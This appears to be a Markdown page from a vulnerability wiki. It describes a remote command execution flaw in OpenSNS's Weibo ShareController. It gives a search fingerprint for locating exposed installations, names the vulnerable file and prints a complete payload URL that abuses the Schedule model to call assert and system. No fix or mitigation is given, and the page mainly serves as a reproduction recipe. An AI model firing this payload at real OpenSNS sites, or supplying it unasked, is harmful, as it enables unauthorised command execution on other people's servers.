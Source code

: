 # OpenSNS Application ShareController.class.php Remote Command Execution Vulnerability

## Vulnerability Description

OpenSNS has a remote command execution vulnerability, and an attacker can execute any command by sending a specific request packet through the vulnerability.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">OpenSNS</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">icon_hash="1167011145"</span>

## Vulnerability reappears

The login page is as follows



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/image-20210629150345721.png)

File with vulnerability `Application/Weibo/Controller/ShareController.class.php`

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1634372349493-09076c1f-7406-46af-b4b4-9cabb771a8ec.png)

Send Payload

```plain
/index.php?s=weibo/Share/shareBox&query=app=Common%26model=Schedule%26method=runSchedule%26id[status]=1%26id[method]=Schedule-%3E_validationFieldItem%26id[4]=function%26[6][]=%26id[0]=cmd%26id[1]=assert%26id[args]=cmd=system(ver)
```



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/image-20210629150412729.png)
